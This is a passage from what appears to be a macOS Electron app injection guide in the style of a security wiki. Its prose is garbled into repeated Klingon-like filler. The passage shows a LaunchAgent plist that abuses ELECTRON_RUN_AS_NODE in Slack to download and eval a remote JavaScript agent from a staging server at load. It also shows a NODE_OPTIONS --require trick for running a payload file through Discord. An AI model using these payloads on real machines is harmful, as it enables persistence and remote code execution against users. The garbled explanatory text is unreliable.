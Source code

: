 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH, 'ej vaj 'oH
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>EnvironmentVariables</key>
<dict>
<key>ELECTRON_RUN_AS_NODE</key>
<string>true</string>
</dict>
<key>Label</key>
<string>com.xpnsec.hideme</string>
<key>ProgramArguments</key>
<array>
<string>/Applications/Slack.app/Contents/MacOS/Slack</string>
<string>-e</string>
<string>const { spawn } = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);</string>
</array>
<key>RunAtLoad</key>
<true/>
</dict>
</plist>
```
## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

{% code overflow="wrap" %}
```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
{% endcode %}

{% hint style="danger" %}
QaStaHvIS **`EnableNodeOptionsEnvironmentVariable`** **qIb** **jIyaj** **vaj** **env var** **NODE\_OPTIONS** **laH** **laH** **app** **laH** **laH** **env variable** **`ELECTRON_RUN_AS_NODE`** **qar** **vaj** **jIyaj** **vaj** **fuse** **`RunAsNode`** **qIb**.

**`ELECTRON_RUN_AS_NODE`** **qar** **jIyaj** **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`
{% endhint %}

### Injection from the App Plist

